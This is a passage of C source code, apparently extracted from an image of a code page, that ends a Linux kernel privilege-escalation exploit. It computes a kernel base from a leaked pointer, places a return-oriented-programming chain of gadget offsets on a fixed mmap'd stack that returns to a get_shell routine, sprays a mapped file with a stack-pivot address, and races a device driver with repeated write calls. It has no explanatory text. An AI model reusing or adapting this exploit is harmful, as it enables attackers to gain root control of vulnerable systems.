 ```c=
        //read(fd,buf,sizeof(buf));
        uint64_t *p = (uint64_t*)buf;
        uint64_t kaddr = p[3]-0x1a35360;
        
        printf("%p\n",(void*)(kaddr+0x11204ca));
        printf("%p\n",(void*)(kaddr));
        uint32_t rsp = ((kaddr+0x11204ca)&0xffffffff) - 0x1000;
        uint64_t* rsp_space = mmap(rsp&(~0xfff),0x4000,PROT_EXEC|PROT_READ|PROT_WRITE ,MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS,-1,0);


        uint64_t *prsp = (uint64_t*)(rsp+0x1000);
        int count = 0;
        prsp[count++] = 0x0;
        prsp[count++] = 0x0;
        prsp[count++] = 0x0;

        prsp[count++] = kaddr+0x101c20d;
        prsp[count++] = 0x0;
        prsp[count++] = kaddr+0x1069fe0;
        prsp[count++] = kaddr+0x1580579;
        prsp[count++] = 0x0;
        prsp[count++] = kaddr+0x1069df0;
        prsp[count++] = kaddr+0x103efc4;
        prsp[count++] = 0x0;
        prsp[count++] = kaddr+0x101dd06;
        prsp[count++] = (size_t)get_shell;
        prsp[count++] = user_cs;
        prsp[count++] = user_rflags;
        prsp[count++] = user_sp;
        prsp[count++] = user_ss;

        //read(0,&tmp,sizeof(tmp));
        FILE* fp = fopen("/tmp/data","w");
        for(int i=0;i<0x1000000/8;i++){
                uint64_t val = kaddr+0x11204ca;
                fwrite(&val,sizeof(val),1,fp);
        }
        fclose(fp);
        int datafd = open("/tmp/data",O_RDONLY);
        uint64_t* addr = mmap(0x1c0800000,0x500000,PROT_EXEC|PROT_READ|PROT_WRITE ,MAP_PRIVATE|MAP_FIXED,datafd,0);
        close(datafd);
        //read(0,&tmp,sizeof(tmp));
        pthread_t tid;
        pthread_create(&tid,NULL,job,NULL);
        Req.cmd = 5;
        Req.val = 0;
        while(1)
                write(fd,&Req,sizeof(Req));
        return 0;
}
```
